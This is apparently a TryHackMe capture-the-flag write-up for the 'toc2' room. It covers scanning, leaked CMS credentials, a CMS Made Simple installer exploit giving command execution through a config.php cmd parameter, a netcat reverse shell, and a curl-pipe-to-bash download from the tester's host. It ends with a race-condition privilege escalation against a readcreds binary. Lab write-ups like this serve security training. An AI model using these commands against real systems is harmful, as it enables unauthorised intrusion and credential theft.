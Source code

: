 # 55 - toc2 (race condition exploitation)

Room Link --> [https://tryhackme.com/dashboard](https://tryhackme.com/dashboard)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ nmap -Pn -n -v 10.10.136.233 -p- -T5

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```
{% endcode %}

On the website main page, there is a note:

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

`cmsmsuser:devpass`  - the dev left his credentials there.

The `robots.txt` page.

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Searched online for an exploit and got [this](https://www.exploit-db.com/exploits/44192)

#### Exploitation

Proceed as stated in the exploit POC, when we get to step 4, we intercept the traffic with burpsuite and modify the `timezone` parameter.

The dbmane is also on the `robots.txt` page.

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And done, we goto the path:

`http://10.10.136.233/cmsms/config.php?cmd=id;uname` - we have RCE.



<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

Getting reverse shell, i used

‘rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.88.214 9000 >/tmp/f’, save it in a \`shell.sh\` file, then \`curl [http://10.18.88.214/shell.sh](http://10.18.88.214/shell.sh) | bash\` on the cmd paprameter.

<figure><img src=".gitbook/assets/image (385).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to Frank

There is a `new_machine.txt` file in Frank home directory. It contained a password, so i tried it for Frank and it worked.

### Priv Esc to Root

There is a `readcreds.c` file that seems to be vulnerable to `Race Condition` attack.

{% code overflow="wrap" lineNumbers="true" %}
```c
frank@toc:~/root_access$ ./readcreds readcreds.c
#include <string.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
#include <fcntl.h>
#include <errno.h>
#include <stdlib.h>

int main(int argc, char* argv[]) {
    int file_data; char buffer[256]; int size = 0;

    if(argc != 2) {
        printf("Binary to output the contents of credentials file \n ./readcreds [file] \n"); 
	exit(1);
    }

    if (!access(argv[1],R_OK)) {
	    sleep(1);
	    file_data = open(argv[1], O_RDONLY);
    } else {
	    fprintf(stderr, "Cannot open %s \n", argv[1]);
	    exit(1);
    }

    do {
        size = read(file_data, buffer, 256);
        write(1, buffer, size);
    } 
    
    while(size>0);
}
```
{% endcode %}

WATCH this video if you are not familiar with race conditions

[https://www.youtube.com/watch?v=5g137gsB9Wk](https://www.youtube.com/watch?v=5g137gsB9Wk)

Download the `rename.c`  binary used for the exploitation: https://github.com/sroettger/35c3ctf\_chals/blob/master/logrotate/exploit/rename.c

You’ll need to compile this C file first.

Create a blank file to use as one of these two arguments. I just `touch asd` , and execute it with `root_password_backup` as an argument `./rename root_password_backup asd` _._ You will see the terminal hang… this is normal.

We can now ssh as Frank in another terminal or background the process. let’s try to run the _readcreds_ binary with our file we want to read. At first we may not be able to open, but keep pounding up and enter until eventually we hit our permissions and cat the file.

<figure><img src=".gitbook/assets/image (386).png" alt=""><figcaption></figcaption></figure>

`su root`&#x20;

Done!

